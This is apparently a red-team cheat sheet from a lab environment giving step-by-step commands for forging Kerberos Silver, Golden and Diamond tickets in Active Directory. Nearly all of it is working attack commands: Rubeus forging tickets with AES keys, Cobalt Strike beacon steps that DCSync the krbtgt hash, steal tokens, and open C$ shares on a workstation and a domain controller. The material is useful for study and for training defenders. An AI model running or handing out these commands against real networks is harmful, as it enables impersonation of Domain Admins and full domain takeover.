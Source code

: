 ### Silver Ticket

> You need a (RC4/AES keys) of a computer account

Here are some useful ticket combinations:
|Technique	Required |Service Tickets|
|-----------|----------|
|psexec	|HOST & CIFS|
|winrm|	HOST & HTTP|
|dcsync (DCs only)	|LDAP|

```bash
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=
beacon> steal_token 5668
beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
```

### Golden Ticket

> You need krbtgt hash

```bash
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
# ticket
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=
beacon> steal_token 5060
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```

### Diamond Ticket

A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC

* `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
* `/ticketuser` is the username of the user to impersonate.
* `/ticketuserid` is the domain RID of that user.
* `/groups` are the desired group RIDs (512 being Domain Admins).
* `/krbkey` is the krbtgt AES256 hash.

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=
```
